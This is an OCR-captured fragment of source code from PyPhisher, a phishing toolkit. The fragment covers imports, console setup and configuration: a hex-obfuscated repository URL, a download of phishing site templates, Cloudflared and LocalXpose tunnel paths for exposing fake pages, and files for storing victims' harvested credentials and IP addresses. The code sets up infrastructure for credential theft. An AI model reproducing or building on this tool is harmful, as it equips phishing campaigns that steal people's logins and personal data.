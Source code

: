  for module in modules: 
     try: 
         eximport(module) 
     except: 
         print(f"{module} cannot be installed! Install it manually by {green}'pip3 install {module}'") 
         exit(1) 
  
 from requests import ( 
     get, 
     head, 
     Session 
 ) 
 from requests.exceptions import ConnectionError 
 from rich.console import Console 
 from rich.panel import Panel 
 from rich.progress import ( 
     BarColumn, 
     Progress, 
     TextColumn, 
     TimeRemainingColumn, 
     TransferSpeedColumn 
 ) 
 from rich.traceback import install as override_default_traceback 
  
 override_default_traceback() 
 cprint = Console().print 
  
 # Get Columns of Screen 
 columns = get_terminal_size().columns 
  
 repo_url = "https://github.com/\x4b\x61\x73\x52\x6f\x75\x64\x72\x61/PyPhisher" 
 websites_url = f"{repo_url}/releases/download/v{version[:3]}/websites.zip" # "https://github.com/KasRoudra/PyPhisher/releases/latest/download/websites.zip"  
  
 # CF = Cloudflared, LX = LocalXpose, LHR = LocalHostRun 
  
 home = getenv("HOME") 
 ssh_dir = f"{home}/.ssh" 
 sites_dir = f"{home}/.websites" 
 templates_file = f"{sites_dir}/templates.json" 
 tunneler_dir = f"{home}/.tunneler" 
 php_file = f"{tunneler_dir}/php.log" 
 cf_file = f"{tunneler_dir}/cf.log" 
 lx_file = f"{tunneler_dir}/loclx.log" 
 lhr_file = f"{tunneler_dir}/lhr.log" 
 site_dir = f"{home}/.site" 
 cred_file = f"{site_dir}/usernames.txt" 
 ip_file = f"{site_dir}/ip.txt" 
 main_ip = "ip.txt" 
 main_info = "info.txt" 
 main_cred = "creds.txt" 
 email_file = "files/email.json" 
 error_file = "error.log" 
 is_mail_ok = False 
 redir_url = "" 
 email = "" 
 password = "" 
 receiver = "" 
 mask = "" 
 default_port = 8080 
 default_tunneler = "Cloudflared" 
 default_template = "60" 
 cf_command = f"{tunneler_dir}/cloudflared" 